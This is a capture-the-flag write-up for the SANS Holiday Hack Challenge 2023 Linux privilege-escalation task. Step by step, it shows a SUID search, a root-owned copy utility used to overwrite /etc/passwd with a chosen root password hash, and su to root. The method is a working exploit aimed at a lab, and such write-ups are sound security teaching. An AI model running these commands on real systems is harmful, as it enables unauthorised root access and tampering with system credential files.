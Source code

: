 # SANS Holiday Hack Challenge 2023 - Linux PrivEsc

## Description

> Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

### Metadata

- Difficulty: 3/5
- Tags: `linux`, `cli`, `privesc`

## Solution

### Video

<iframe width="1280" height="720" src="https://youtu.be/LtHHYrNxOEw?t=635" title="SANS Holiday Hack Challenge 2023 - Linux Privesc" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### Write-up

We get a simulated bash shell as `elf` user and our task is to escalate privileges to `root` and execute a binary in the `/root/` directory.

A typical Linux privilege escalation possibility is by finding a binary with the SETUID bit set, which means that if the binary is executed by anyone, it will run with as the owner. If the owner is `root` then it will be executed as `root`.

```shell
elf@3a9c01b680bd:~$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 85064 Nov 29  2022 /usr/bin/chfn
-rwsr-xr-x 1 root root 53040 Nov 29  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 55528 May 30  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 44784 Nov 29  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 67816 May 30  2023 /usr/bin/su
-rwsr-xr-x 1 root root 88464 Nov 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39144 May 30  2023 /usr/bin/umount
-rwsr-xr-x 1 root root 68208 Nov 29  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 16952 Dec  2 22:17 /usr/bin/simplecopy
```

There is an interesting, uncommon binary: `/usr/bin/simplecopy`. With this binary we can copy files as `root` (this means rewriting too).

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy
Usage: /usr/bin/simplecopy <source> <destination>
```

Let's try to rewrite the original `/etc/passwd` file with a modified one where the password of the `root` user is set by us.

Let's create a password hash first.

```shell
$ openssl passwd -1 abcd1234
$1$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0
```

Copy the original `passwd` file and modify the first line so that it will contain the password hash.

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy /etc/passwd passwd

elf@3a9c01b680bd:~$ sed '0,/x/s//\$1\$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0/' passwd > new_passwd 

elf@3a9c01b680bd:~$ cat new_passwd 
root:$1$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/sh
```

Now, let's copy the modified `passwd` file and rewrite the original one.

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy new_passwd /etc/passwd
```

Now we know the `root` password and we can solve the challenge.

```shell
elf@3a9c01b680bd:~$ su root
Password: 
root@3a9c01b680bd:/home/elf# cd /root/
root@3a9c01b680bd:~# ls
runmetoanswer
root@3a9c01b680bd:~# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

> **Rose Mold (Ostrich Saloon)**:
*Yup, I knew you knew. You just have that vibe.
To answer your question of why from earlier... Nunya!
But, I will tell you something better, about some information I... found.
There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
That's all I got. K byyeeeee.
Ugh... n00bs...*